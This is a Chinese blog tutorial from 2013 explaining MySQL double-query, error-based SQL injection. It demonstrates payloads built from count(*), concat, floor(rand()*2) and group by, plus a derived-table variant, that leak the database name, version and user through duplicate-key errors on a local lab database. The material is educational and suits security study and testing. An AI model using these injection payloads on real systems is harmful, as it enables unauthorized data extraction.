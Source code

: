 ```yaml
---
title: 详细讲解双查询注入
tags:
  - mysql
  - 互联网
  - 学习
  - 安全
id: 2770
categories:
  - 学习笔记
date: 2013-03-03 07:53:24
---
```


上一篇文章中，[http://leaver.me/archives/2726.html](http://leaver.me/archives/2726.html)

我说双查询很难讲清楚，这次就试着讲一下。读了一些原理性的东西。然后尽量通俗的给大家讲清楚。。

在此之前，我们理解一下子查询，查询的关键字是select，这个大家都知道。子查询可以简单的理解在一个select语句里还有一个select。里面的这个select语句就是子查询。

看一个简单的例子：

<pre class="lang:default decode:true " >Select concat((select database()));</pre> 

真正执行的时候，先从子查询进行。因此执行select database() 这个语句就会把当前的数据库查出来，然后把结果传入到concat函数。这个函数是用来连接的。比如 concat(‘a’,’b’)那结果就是ab了。

原理：

双注入查询需要理解四个函数/语句
1\. Rand()  //随机函数
2\. Floor()  //取整函数
3\. Count()  //汇总函数
4\. Group by clause //分组语句

简单的一句话原理就是有研究人员发现，当在一个聚合函数，比如count函数后面如果使用分组语句就会把查询的一部分以错误的形式显示出来。

以本地一个名为Security的数据库为例
首先在bt5下的命令行下输入

<pre class="lang:default decode:true " >mysql -u root –p toor</pre> 

就会连接上数据库了。
然后通过use security； 就可以切换到security数据库了。因为一个服务器上可能有多个数据库嘛。
[![](/images/522ac49ec64d3b7735b3dc208564de22477e4aba.png)](http://leaverimage.b0.upaiyun.com/33517_o.png)

然后我们执行一下前面那个简单的子查询的例子

<pre class="lang:default decode:true " >SELECT concat((select database()));</pre> 

就能显示security，也就是显示了当前数据库的名字了。
然后我们测试一下concat的用法。输入

<pre class="lang:default decode:true " >SELECT concat('string1','string2');</pre> 

显然结果就是string1string2了

[![](/images/a8be70e4ddb999500369b44191c7c188b4ecf651.png)](http://leaverimage.b0.upaiyun.com/33518_o.png)
然后我们测试一下rand()这个随机函数是干嘛的

<pre class="lang:default decode:true " >Select rand();</pre> 

我们多执行几次
 [![](/images/ab02015d63c2fc6d0af98492ae791d58a7665000.png)](http://leaverimage.b0.upaiyun.com/33519_o.png)
可以看到，这个函数就是返回大于0，小于1之间的数
然后看看取整函数

<pre class="lang:default decode:true " >Select floor(1.1123456);</pre> 
[![](/images/4477acaba79cf1464c028cab96e32534d81af2e5.png)](http://leaverimage.b0.upaiyun.com/33520_o.png)
这个函数就是返回小于等于你输入的数的整数。

然后我们看看双注入查询中的一个简单组合。大家从我的上一篇文章中应该也看到了有一个子查询是

<pre class="lang:default decode:true " >SELECT floor(rand()*2);</pre> 

我们从里向外看。rand() 返回大于0小于1的小数，乘以2之后就成了小于0小于2了。然后对结果进行取证。就只能是0或1了。也就是这个查询的结果不是1，就是0
我们稍微加大一点难度。看这个查询

<pre class="lang:default decode:true " >SELECT CONCAT((SELECT database()), FLOOR(RAND()*2));</pre> 

不要怕。先看最里面的SELECT database() 这个就返回数据库名，这里就是security了。然后FLOOR(RAND()*2)这个上面说过了。不是0，就是1.然后把这两个的结果进行concat连接，那么结果不是security0就是security1了。

[![](/images/f29b4115541e053c2e100bc7a35cdd51aaa9c2e5.png)](http://leaverimage.b0.upaiyun.com/33521_o.png)
如果我们把这条语句后面加上from 一个表名。那么一般会返回security0或security1的一个集合。数目是由表本身有几条结果决定的。比如一个管理表里有5个管理员。这个就会返回五条记录，这里users表里有13个用户，所以返回了13条
[![](/images/d272e51a8be57b8739ab1c63516af31cd795f6ab.png)](http://leaverimage.b0.upaiyun.com/33522_o.png)
如果是从information_schema.schemata里，这个表里包含了mysql的所有数据库名。这里本机有三个数据库。所以会返回三个结果

[![](/images/8c67270890234e1d851d71c02e44e7511cedcdbd.png)](http://leaverimage.b0.upaiyun.com/33523_o.png)

现在我们准备加上Group By 语句了。
我们使用information_schema.tables 或 information_schema.columns者两个表来查询。因为表里面一般数据很多。容易生成很多的随机值，不至于全部是security0，这样就不能查询出结果了。

<pre class="lang:default decode:true " >select concat((select database()), floor(rand()*2))as a from information_schema.tables group by a;</pre> 

这里我先解释一下。我们把concat((select database()), floor(rand()*2)) 这个结果取了一个别名 a ，然后使用他进行分组。这样相同的security0分到一组，security1分到一组。就剩下两个结果了。
 [![](/images/c9ad11cc6de49646801b61d3143e1fa9c5d0b0af.png)](http://leaverimage.b0.upaiyun.com/33524_o.png)

注意。这里的database()可以替换成任何你想查的函数，比如version(), user(), datadir()或者其他的查询。比如查表啊。查列啊。原理都是一样的。

最后的亮点来了。。
我们输入这条：注意多了一个聚合函数count(*)

<pre class="lang:default decode:true " >select count(*), concat((select database()), floor(rand()*2))as a from information_schema.tables group by a;</pre> 
[![](/images/03af307809c7bcdfd4f77d3551d39e1d7fa7e515.png)](http://leaverimage.b0.upaiyun.com/33525_o.png)

报错了

<pre class="lang:default decode:true " >ERROR 1062 (23000): Duplicate entry 'security1' for key ‘group_key’</pre> 

重复的键值 可以看到security就是我们的查询结果了
想要查询版本就这样：

<pre class="lang:default decode:true " >select count(*), concat((select version()), floor(rand()*2))as a from information_schema.tables group by a;</pre> 

看看替换了database()为version()
 [![](/images/b4e9f38f4533442b15107ce4b92d7d9d370bc934.png)](http://leaverimage.b0.upaiyun.com/33527_o.png)
再看一个

<pre class="lang:default decode:true " >select count(*), concat('~',(select user()),'~', floor(rand()*2))as a from information_schema.tables group by a;</pre> 

报错

<pre class="lang:default decode:true " >ERROR 1062 (23000): Duplicate entry '~root@localhost~1' for key 'group_key'</pre> 

这里的~这个符号只是为了让结果更清晰。

这里还有一个比较复杂的。叫做派生表。需要使用
select 1 from (table name); 这样的语法来报错，具体就是

<pre class="lang:default decode:true " >select 1 from (select count(*), concat('~',(select user()),'~', floor(rand()*2))as a from information_schema.tables group by a)x;</pre> 

来报错。

大家可以对照我上一篇文章来看。相信讲的还算清楚。
